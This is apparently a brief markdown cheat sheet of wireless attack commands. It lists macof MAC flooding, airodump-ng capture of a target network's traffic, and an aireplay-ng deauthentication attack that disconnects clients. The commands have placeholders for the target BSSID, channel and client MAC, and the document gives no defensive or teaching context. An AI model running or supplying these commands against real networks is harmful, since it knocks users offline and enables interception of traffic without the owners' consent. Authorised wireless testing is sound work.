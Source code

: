 # wifi

## wifi mac ddos

```
sudo macof -i wlan0 -s 192.168.1.1
```
## wifi intercape

```
airodump-ng wlan0 --bssid <bssid> -c <channel> 
```

## wifi deauto attack 

```
aireplay-ng --deauth 100 -a <wifi mac> -c <clint mac> wlan0
```
